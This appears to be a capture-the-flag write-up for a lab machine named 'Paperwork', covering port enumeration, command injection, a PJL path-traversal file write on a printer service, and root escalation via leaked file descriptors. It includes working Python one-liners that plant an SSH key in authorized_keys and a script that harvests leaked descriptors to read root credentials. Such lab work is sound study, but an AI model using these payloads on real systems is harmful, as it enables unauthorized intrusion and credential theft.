




# Paperwork

## Enumeration

An initial port scan revealed three open ports on the target host:

```text
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1515/tcp open  ifor-protocol
```

### Initial Access via Command Injection (Port 1515)

Navigating to the web application on port 80, I discovered a downloadable `.zip` archive containing the Python source code for the service running on port 1515. Code review revealed a command injection vulnerability resulting from unsanitized user input:



Using the custom [`exploit.py`](./scripts/exploit.py) script, I successfully executed code remotely and obtained an initial reverse shell on the system:



### Arbitrary File Write via PJL Traversal (Port 9100)

Further enumeration showed that port 9100 was running an HP Printer Job Language (PJL) service. Analysis indicated that the underlying script handling PJL operations was located at `/home/archivist/printer/jetdirect.py`.

I verified file read capabilities through PJL commands using the following snippet:

```bash
python3 -c 'import socket; s=socket.socket(); s.connect(("127.0.0.1",9100)); s.sendall(b"\x1b%-12345X\n@PJL FSQUERY NAME=\"0:\\jetdirect.py\"\n\x1b%-12345X"); print(s.recv(4096).decode(errors="ignore")); s.close()'
```

This confirmed a path traversal flaw in the PJL file operations, enabling arbitrary file writes. I leveraged this vulnerability to append my SSH public key to the `archivist` user's `authorized_keys` file:

```bash
python3 -c 'import socket; k=b"ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCh3K9DjTtE4YhVQKJjH+A/ifPIgSmAAw/hqXHRZ+9fSThF+oyH2lE2rPDgMhuLriHLDQeSXOFTGrzCIENU78I7LAkwprNPvCBRaNFlIhxB2PdT8/xxW+w7snHJYrCKGmtLBCnpJ03L8Eq6Ns+IkC/oCSldKbrQpO+TTBptzBDupWKZQ/OjsXCWS4PHASgjEKBq3+8TsJCLNn0x53ypqyb1aliLpo944malhGtyVHic/x+hIwsGj31lSDYY8bVwrYKI7uzLUCb0ezoE1IA1S3hH4/xW8cNDIM4d7fay2qunf2rLJnWjAJGgx8zwPS7oFRhau1lLz8mRBtqayboj/4ei9wJjtg8/3/gnjVvTmiEZeK1d4gpmYu6ha791O4hjb3dk5wiOFlABLKU/eQVaSsHBN8mM40eKy9xEgQ7F3yOiF9m6xv1F4uG39aLn4TSnfZnY2KoEYpGDd+16uQ4VkJtw+ko3BL8KUryS4bExuu4XeNwYjc54OOzq0bRlr9YNxcM= kali@kali\n";p="0:\\..\\.ssh\\authorized_keys";s=socket.socket();s.connect(("127.0.0.1",9100));s.sendall(f"\x1b%-12345X\n@PJL FSDOWNLOAD NAME=\"{p}\" SIZE={len(k)}\n".encode()+k);print(s.recv(1024));s.close()'
```

After deploying the key, I authenticated directly as `archivist` via SSH:



## Privilege Escalation

During post-exploitation enumeration, I identified a root-privileged daemon located at `/usr/bin/paperwork-daemon`. This daemon reads a file containing root credentials and creates a UNIX domain socket (`/run/paperwork/mgmt.sock`) accessible to certain unprivileged users, including `archivist`.

The vulnerability lies in the daemon's log processing behavior: when specific log strings are detected, it triggers a routine that transmits open file descriptors (FDs) over the UNIX socket via `SCM_RIGHTS` ancillary control data.

I exploited this file descriptor leakage by executing the following Python script to capture the open socket descriptors and read the privileged file:

```bash
python3 - <<'PY'
import socket, array, os

s=socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
s.connect("/run/paperwork/mgmt.sock")

fds=array.array("i")

msg, ancdata, flags, addr = s.recvmsg(
    4096,
    socket.CMSG_SPACE(8)
)

print(msg.decode(errors="ignore"))

for level, typ, data in ancdata:
    if level == socket.SOL_SOCKET and typ == socket.SCM_RIGHTS:
        fds.frombytes(data[:len(data)])

for fd in fds:
    print("[+] Received FD:", fd)
    os.lseek(fd, 0, os.SEEK_SET)
    print(os.read(fd, 4096).decode(errors="ignore"))

s.close()
PY
```

Through the leaked file descriptors, full root access was successfully achieved:

